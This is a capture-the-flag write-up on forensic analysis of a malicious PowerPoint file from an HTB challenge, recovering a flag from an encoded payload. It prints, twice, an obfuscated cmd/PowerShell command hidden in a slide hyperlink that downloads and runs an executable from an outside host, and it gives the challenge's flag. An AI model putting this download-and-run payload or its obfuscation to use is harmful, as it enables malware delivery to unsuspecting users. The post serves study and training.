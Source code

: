 ```yaml
---
title: "HTB Cyber Apocalypse CTF - AlienPhish"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-04-27T05:17:41+05:30
categories: [Writeups, CTF]
tags: [HTB, CTF, Forensics, Maldocs, Malware Analysis]
render_with_liquid: false
---
```


## AlienPhish - PowerPoint File Forensics

- I came up with this cool little trick on the spot and decided to use VS Code to just search through all the files at once.
- Extract the PowerPoint file with `unzip file.pptx` and then open the entire directory in VS Code (`code .` if you have it set up that way in terminal/env) for searching through all the files quickly and easily. I use VS Code. You can use any other code editor you use/like that can search through all the files at once (or you could use `grep` but I'd rather go through everything with a code editor when doing any kind of file forensics).
- Search for keywords like `vba`, `cmd`, `exe`, etc.
- Found what I wanted immediately in `slide1.xml.rels` file with `cmd` and `exe` keyword search.
- That file had a malicious `cmd` payload in `Target` attribute:

```
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/>
```

```
"cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

- We can tell from the URL `exe.x/neila.htraeyortsed/:ptth` that some part of the payload is reversed.
- But the file name that this powershell command is downloading looks like an encoded string.
- `99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q` looked like an encoded value so went to [CyberChef](https://gchq.github.io/CyberChef/), reversed and decoded to Base64 and got the flag.
- Encoded Value => Reverse => `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99` => Base64 Decode => Flag => `CHTB{pH1sHiNg_w0_m4cr0s>??}`
- But that flag was not accepted and showed incorrect. Probably some decoding error so I went back to [CyberChef](https://gchq.github.io/CyberChef/) and in Base64 Decoding, there was an option for `URL Safe` decoding which gave => `CHTB{pH1sHiNg_w0_m4cr0s???}`. This was one accepted.

